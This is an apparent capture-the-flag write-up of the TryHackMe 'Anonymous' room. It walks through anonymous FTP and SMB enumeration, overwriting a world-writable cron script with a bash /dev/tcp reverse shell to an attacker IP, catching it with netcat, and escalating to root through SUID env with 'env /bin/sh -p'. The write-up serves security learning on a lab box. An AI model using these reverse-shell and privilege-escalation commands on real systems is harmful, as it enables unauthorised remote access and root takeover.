






# TryHackMe: Anonymous

    


## Room Info

| Field | Value |
|---|---|
| **Platform** | TryHackMe |
| **Room** | [Anonymous](https://tryhackme.com/room/anonymous) |
| **Difficulty** | Beginner (labeled "Pwn" task, self-described as a beginner box) |
| **Estimated Time** | 75 min |
| **Category** | Network misconfiguration → Linux privilege escalation |
| **Tools Used** | `nmap`, `smbclient`, `ftp`, `nc`, `bash`, GTFOBins |
| **Objective** | Get `user.txt` and `root.txt` |

---

## Concept Glossary

Before the walkthrough, the core ideas this room is built around:

- **Anonymous FTP login** — Some FTP servers allow a login with the username `anonymous` and any (or blank) password, often left over from a default/test configuration. It's meant for public file distribution, but if write permissions are misconfigured, it becomes a foothold for attackers to plant files.
- **Anonymous SMB / null session** — Similarly, an SMB server can be configured to allow unauthenticated ("null") access to shares. `smbclient -L` lists what shares exist without needing valid credentials, and `smbclient //target/share` connects to one directly.
- **SUID bit on a script that runs on a schedule** — If a script (like `clean.sh` here) is: (1) writable by a low-privileged/anonymous user, and (2) executed periodically by a higher-privileged process (root's cron job, in this case), then overwriting that script gives you code execution *as whatever user runs it*. This is a classic "write access to a privileged script" privilege escalation pattern — distinct from a SUID *binary*, but the same core idea: something you can write is executed with more power than you have.
- **Reverse shell** — Instead of connecting *to* the target (a bind shell), a reverse shell makes the target connect *back* to a listener on the attacker's machine, handing over an interactive shell. This is preferred when the target is behind a firewall/NAT that blocks inbound connections but allows outbound ones. The classic Bash one-liner:
  ```bash
  bash -i >& /dev/tcp/ATTACKER_IP/PORT 0>&1
  ```
  breaks down as: `bash -i` (interactive shell) → `>&` (redirect stdout+stderr) → `/dev/tcp/IP/PORT` (Bash's built-in TCP device, opens a socket) → `0>&1` (redirect stdin from the same socket). Netcat (`nc -nvlp PORT`) is used on the attacker side to catch the incoming connection.
- **SUID bit (`-perm -4000`) and GTFOBins** — A SUID ("Set User ID") binary runs with the permissions of its *owner* (often root) rather than the user who executes it. `find / -perm -4000` lists every SUID binary on the system. Most are legitimate (`passwd`, `su`, etc.), but if an *unusual* one appears — like `env` — it's worth checking [GTFOBins](https://gtfobins.org/), a curated list of common Unix binaries and how they can be abused for privilege escalation, when they carry SUID, sudo rights, or are run in unusual contexts. `env` with the SUID bit set is a well-known escalation vector because `env` can be used to launch another program (`/bin/sh`) while *inheriting the SUID process's effective privileges* — the `-p` flag on `sh` explicitly tells it not to drop those elevated privileges even though it was invoked by a non-root user.

---

## 1. Reconnaissance — Port Scan

Started with a standard service/version + OS detection scan against the target:

```bash
nmap -sV -O 10.128.157.134
```


**Results — 4 open ports:**

| Port | Service | Version |
|---|---|---|
| 21 | FTP | vsftpd 2.0.8 or later |
| 22 | SSH | OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 |
| 139 | netbios-ssn | Samba smbd 3.X–4.X |
| 445 | netbios-ssn | Samba smbd 3.X–4.X |

**Why this matters:** FTP + SMB running together on a "beginner box" immediately suggests the intended path involves anonymous/misconfigured access to one or both of these file-sharing services rather than an SSH brute-force or a web app — there's no HTTP port at all. This shapes the whole enumeration strategy: check both FTP and SMB for anonymous access before looking anywhere else.

---

## 2. SMB Enumeration

Listed available shares with a null/guest session:

```bash
smbclient -L 10.128.157.134
```

Then connected directly to the `pics` share:

```bash
smbclient //10.128.157.134/pics
```



**Findings:**
- Two shares exist: `print$` (default printer driver share) and `pics` ("My SMB Share Directory for Pics").
- Inside `pics`: two image files, `corgo2.jpg` and `puppos.jpg`.

**Why:** These turned out to be a decoy/red herring for this stage — just images, nothing exploitable inside them (no embedded data was pursued further since the FTP path proved to be the actual vector). This is a good reminder to check *both* enumerated services rather than assuming the first thing you find is the intended path.

---

## 3. FTP Enumeration — Anonymous Login

Connected to FTP and tried the anonymous login:

```bash
ftp 10.128.157.134
Name: anonymous
Password: (blank)
```

Login succeeded immediately — no restriction on anonymous access. The banner even names the box's user: `NamelessOne's FTP Server!`

Explored the directory tree and found a `scripts` folder:

```bash
dir
cd scripts
dir
```


**Inside `/scripts`:**

```
-rwxr-xrwx  1 1000  1000    314  clean.sh
-rw-rw-r--  1 1000  1000   1462  removed_files.log
-rw-r--r--  1 1000  1000     68  to_do.txt
```

**Why this is the key finding:** the permission string on `clean.sh` — `-rwxr-xrwx` — means *world* has write **and** execute permission (the last `rwx` triplet). Combined with the fact that a `.log` file is being actively appended to (`removed_files.log`, last modified at the time of testing rather than back in 2020 like the other files), this strongly suggests `clean.sh` is being executed periodically by something with elevated privileges (a cron job) — and anonymous FTP users can overwrite it.

Downloaded all three files to inspect locally:

```bash
get clean.sh
get removed_files.log
get to_do.txt
```

---

## 4. Reading the Downloaded Files

```bash
cat to_do.txt
```



`to_do.txt` reads: *"I really need to disable the anonymous login… it's really not safe"* — a direct hint from the room author confirming anonymous FTP access is the intended vulnerability, and that whoever runs this box knows it's a problem but hasn't fixed it yet.

```bash
cat clean.sh
cat removed_files.log
```


**`clean.sh` (original):**
```bash
#!/bin/bash

tmp_files=0
echo $tmp_files
if [ $tmp_files=0 ]
then
    echo "Running cleanup script:  nothing to delete" >> /var/ftp/scripts/removed_files.log
else
    for LINE in $tmp_files; do
    rm -rf /tmp/$LINE && echo "$(date) | Removed file /tmp/$LINE" >> /var/ftp/scripts/removed_files.log;done
fi
```

**`removed_files.log`** shows repeated entries: *"Running cleanup script: nothing to delete"* — confirming this script runs on a recurring schedule (a cron job), always taking the same branch since `tmp_files` never actually gets populated.

**Why:** this confirms the theory from the permission bits — `clean.sh` is a "cleanup" cron script that runs regularly as whatever user owns the cron job (presumably root, given the box's structure), and the log file is proof of an active, repeating execution cycle. That's the exact combination (writable + periodically executed by a privileged process) needed for a script-overwrite privilege escalation.

Re-confirmed the write permission by re-examining the raw `dir` output for `clean.sh` specifically:



---

## 5. Weaponizing the Cron Script

Consulted the PentestMonkey Reverse Shell Cheat Sheet for the Bash one-liner:


Replaced the contents of the local copy of `clean.sh` with a reverse shell payload pointed at the attack box:

```bash
nano clean.sh
```

```bash
#!/bin/bash

bash -i >& /dev/tcp/192.168.164.247/4444 0>&1
```


**Why:** since the cron job just executes `clean.sh` on a timer with no argument checking or integrity verification, replacing its entire content with a reverse shell one-liner means the *next time cron fires it*, it connects back to a listener instead of doing any cleanup logic.

---

## 6. Catching the Shell

Started a `netcat` listener on the attack box, on the same port referenced in the payload:

```bash
nc -nvlp 4444
```


Uploaded the modified `clean.sh` back to the target over FTP, overwriting the original:

```bash
ftp 10.128.157.134
cd scripts
put clean.sh clean.sh
```



After waiting for the cron job's next execution window, the listener caught a connection:

```
connect to [192.168.164.247] from (UNKNOWN) [10.128.157.134] 44042
```

Stabilized basic interaction and grabbed the user flag:

```bash
ls -la
cat user.txt
```


Landed as user `namelessone`, confirming the earlier FTP banner hint (`NamelessOne's FTP Server!`).

**user flag:** Not captured — the terminal output was cut off before the flag value rendered in the screenshot.

---

## 7. Privilege Escalation — Finding the SUID Binary

For enumeration, `linPEAS` is normally the go-to (upload + execute for automated privesc checks), and a reference on how a `linPEAS` run flags SUID binaries plus GTFOBins as the follow-up step was reviewed:



For this box, the SUID check was run manually instead:

```bash
find / -perm -4000 -type f 2>/dev/null
```


Most results were expected system binaries (`/usr/bin/passwd`, `/usr/bin/sudo`, `ssh-keysign`, etc.) — but two stood out at the bottom of the list:

```
/usr/bin/passwd
/usr/bin/env
```

**Why `/usr/bin/env` matters:** `env` is *not* normally a SUID binary on a default Ubuntu install. Its presence in this list means someone (the room author) deliberately set the SUID bit on it as the intended privilege escalation vector.

---

## 8. Exploiting SUID `env` via GTFOBins

Checked GTFOBins' entry for `env`:


GTFOBins documents that when `env` has the SUID bit and its *effective* privileges aren't dropped, it can be used to spawn a shell that inherits those privileges:

```bash
env /bin/sh -p
```

The `-p` flag on `sh` is essential here — it tells the shell to preserve effective UID/GID rather than dropping them to match the real UID, which is exactly what a "privileged shell without dropping privileges" requires.

Ran it on the target:

```bash
/usr/bin/env /bin/sh -p
whoami
cat /root/root.txt
```



`whoami` returned `root` — full privilege escalation achieved from a SUID-flagged `env` binary.

**root flag:** Not captured — the command was issued but the flag value wasn't visible in the final screenshot before the session ended.

---

## Full Lessons Learned

This room strings together three separate, individually simple misconfigurations into one full chain, which is the real value in walking through it slowly:

1. **Anonymous access isn't automatically "safe read-only access."** The room's own `to_do.txt` hint makes this explicit — anonymous FTP is dangerous specifically *because* people assume it's harmless. The actual danger wasn't reading files anonymously, it was that the anonymous account also had *write* access to a directory that mattered.
2. **World-writable + periodically executed by a privileged process = code execution as that process.** This is a broader pattern than "cron job specifically" — it applies to any file that's (a) writable by you and (b) consumed/executed/parsed by something running with more privilege than you have. Systemd timers, log rotation scripts, CI pipelines reading a repo file, anything with that shape is worth the same scrutiny.
3. **Permission bits are a first-class recon target, not an afterthought.** The `-rwxr-xrwx` string on `clean.sh` was the single most important piece of information in the whole box — it's what turned "here's a script I can read" into "here's a script I can hijack." Reading `ls -l` / `dir` output carefully, especially the *last* permission triplet (world), should become automatic.
4. **GTFOBins is a lookup tool, not a memorization exercise.** The useful skill isn't knowing that `env` is exploitable off the top of one's head — it's knowing to run `find / -perm -4000` as a standard privesc step, noticing anything that looks *out of place* for a default install, and then checking GTFOBins for that specific binary. The workflow (enumerate SUID → cross-reference GTFOBins → confirm the exact payload syntax) generalizes to dozens of other binaries.
5. **The `-p` flag on `/bin/sh` is not optional in this exploit** — omitting it would let the shell silently drop back to the real (unprivileged) UID despite `env` itself running as root, producing a confusing "why didn't this work" result. Small flags like this are often the actual hinge-point of a GTFOBins payload.

---

## Skills Demonstrated

`Nmap enumeration` · `SMB null session enumeration (smbclient)` · `Anonymous FTP exploitation` · `File permission analysis (world-writable scripts)` · `Cron job hijacking` · `Reverse shell crafting (Bash /dev/tcp one-liner)` · `Netcat listener handling` · `SUID binary enumeration` · `GTFOBins-based privilege escalation` · `Linux privilege escalation methodology`

---

## References

- [TryHackMe — Anonymous room](https://tryhackme.com/room/anonymous)
- [PentestMonkey — Reverse Shell Cheat Sheet](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
- [GTFOBins — env](https://gtfobins.org/gtfobins/env/)
- [GTFOBins home](https://gtfobins.org/)
